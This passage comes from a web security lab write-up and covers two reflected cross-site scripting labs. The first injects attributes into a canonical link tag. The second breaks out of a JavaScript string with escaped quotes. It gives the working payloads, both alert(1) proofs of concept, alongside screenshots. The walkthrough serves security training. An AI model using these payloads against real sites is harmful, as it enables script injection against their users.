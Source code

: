 Please note that the intended solution to this lab is only possible in Chrome.

<img width="1292" height="664" alt="image" src="https://github.com/user-attachments/assets/5e4e391c-b7ea-4c83-8718-2c9d4c98d673" />

The page allows to post comments:

<img width="973" height="805" alt="image" src="https://github.com/user-attachments/assets/b57a881f-407f-44ce-8807-d3d025972b86" />

We find the link with 'rel="canonical"' in the head section of the HTML page:

<img width="1109" height="149" alt="image" src="https://github.com/user-attachments/assets/6fc1d736-3702-4634-9fc8-faf97e887679" />

We would like to turn it to:

```
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

In the **/post** endpoint it is necessary to send a correct postId, but it is possible to add more parameters which change the content of the href attribute:


<img width="929" height="605" alt="image" src="https://github.com/user-attachments/assets/65c2e924-c2b0-4ea7-bb03-3596816cfd69" />

A correct payload:

`/post?postId=1&a=b'accesskey='X'onclick='alert(1)`

<img width="705" height="276" alt="image" src="https://github.com/user-attachments/assets/f10213e7-bf97-49b2-8d7f-7a064292c160" />

<img width="787" height="143" alt="image" src="https://github.com/user-attachments/assets/8b0090f3-d037-4faf-965e-e3831bdd3574" />

---

### LAB 18 - Reflected XSS into a JavaScript string with single quote and backslash escaped

### Lab Description

![image](https://github.com/user-attachments/assets/01e72f8d-2cbc-4508-a381-725c77363431)

### Solution

  <img width="963" height="522" alt="image" src="https://github.com/user-attachments/assets/6012f021-6b91-402f-a31f-9cbb235ce7ed" />

   The content of the search is reflected inside a h1 HTML element and a variable in Javascript with single quotes:

   <img width="921" height="264" alt="image" src="https://github.com/user-attachments/assets/72cc3ba0-d999-4eb9-9578-2ff557943135" />

   I used the payload:
  
  ```
  ';</script><img src=x onerror=alert(1)><script>var a='a

  ```
<img width="832" height="129" alt="image" src="https://github.com/user-attachments/assets/5e7910b5-831a-4530-bc26-8267a0b4b08e" />
<img width="963" height="97" alt="image" src="https://github.com/user-attachments/assets/3a017ab9-da7a-4128-9aae-f0085ca29b0f" />

---